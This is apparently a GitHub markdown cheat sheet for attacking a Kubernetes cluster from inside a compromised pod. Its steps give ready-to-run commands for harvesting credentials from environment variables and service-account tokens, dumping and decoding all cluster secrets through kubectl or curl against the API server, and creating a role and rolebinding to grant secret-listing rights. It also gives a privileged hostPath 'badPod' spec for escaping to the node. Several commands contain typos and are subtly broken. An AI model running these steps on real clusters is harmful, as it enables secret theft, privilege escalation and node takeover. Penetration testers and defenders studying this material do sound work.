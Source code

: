 ### Inside the pod 
0. are you inside the pod? run:`if [[ -z "$KUBERNETES_SERVICE_HOST" ]];then echo false;else echo true;fi`

1. Execute `env`. What to look for?
- Addresses of other services
- Creds from cloud provider, services, db
- Secrets, logins, passwords of other services and other sensetive info

2. Explore the file system
- Application source code
- Configs with sensitive data
- Mounted directories
- Container socket
- Root directory
- Ability to create StaticPod

3. Service account (ServiceAccount defines Pod capabilities in a cluster)
- /run/secrets/kubernetes.io/serviceaccount
- /var/run/secrets/kubernetes.io/serviceaccount
- /secrets/kubernetes.io/serviceaccount
- `kubectl auth can--i --list`i
- run scripts: `https://github.com/BishopFox/badPods/blob/main/scripts/can-they.sh` to find the token/secret for each pod running on the node and tell you what each token is authorized to do. It can be run from within a pod that has the host's filesystem mounted to /host, or from outside the pod

4. Interaction with kube-api: via `kubectl`, if you have it. If not: 
- take him: `curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl`
- via kube-apiserver: 
```
KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME
```
- via /dev/tcp, /dev/udp (http://rus-linux.net/MyLDP/consol/tcp-udp-socket-bash-shell.html) 

5. Try get all secrets in your context: 
```bash 
kubectl get secrets -A -o yaml
``` 
- example: `kubectl get secret --namespace cattle-system bootstrap-secret -o go-template='{{.data.bootstrapPassword|base64decode}}{{"\n"}}'
- also, if you have access to the JWT token with listing secrets permissions, can use curl to get all secrets:
```bash
curl -k -v -H “Authorization: Bearer <jwt_token>” -H “Content-Type: application/json” https://<master_ip>:6443/api/v1/namespaces/default/secrets | jq -r ‘.items[].data’
```
- if you don't have access to the any JWT-token, try create role and service account, and rolebinding to service account for listing secrets:
```bash 
kubectl create -f - << EOF
kind: Role
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  namespace: default
  name: read-secrets
rules:
- apiGroups: [*]
  resources: ["secrets"]
  verbs: ["list"]
EOF
SERVICE_ACCOUNT_NAME="sa1"
kubectl create sa "$SERVICE_ACCOUNT_NAME"
SERVICE_ACCOUNT_SECRET_NAME=`kubectl get secrets $SERVICE_ACCOUNT_NAME -o json | jq -r '.secrets[].name'`
TOKEN=`kubectl get secrets $SERVICE_ACCOUNT_SECRET_NAME -o json | jq -r '.data.name' | base64 -d`
kubectl create rolebinding read-secrets-binding --role=read-secrets --serviceaccount=default:"$SERVICE_ACCOUNT_NAME"
curl -k -v -H “Authorization: Bearer $TOKEN” -H “Content-Type: application/json” https://<master_ip>:6443/api/v1/namespaces/default/secrets | jq -r ‘.items[].data’
```
6. Check threatening pods-right (.items.rules) and try create (or modified) badPods (https://github.com/BishopFox/badPods) or create all badPods  

example of bad pods yaml
```yaml
spec:
  hostNetwork: true   <-- BAD
  hostPID:true        <-- BAD
  hostIPC:true        <-- BAD
  containers:
  - name: ubuntu-test
    image: ubuntu
    securityContext:
      privileged: true        <-- BAD
    volumeMounts:         
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while truel do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:         <-- BAD
      path: /
		
```
7. Check used vulnerable images
- Get used docker-image of all pods in all namespaces:

```bash
kubectl get pods -A -o go-template='{{range .spec.containers}}{{.image}}{{"\n"}}{{end}}' | sort -u >>  images.list
```

- Exec `apt-get update && apt-get install docker-scan-plugin` and scan `docker scan $IMAGE` (or `cat images.list` | xargs -P 12 -I %i docker scan %i` )

8. Get all external ports of all services in kubernetes cluster 
```bash
kubectl get svc --all-namespaces -o go-template='{{range .items}}{{range.spec.ports}}{{if .nodePort}}{{.nodePort}}{{"\n"}}{{end}}{{end}}{{end}}'`
```
9. DNS-discovery `dig +short srv any.any.svc.cluster.local`


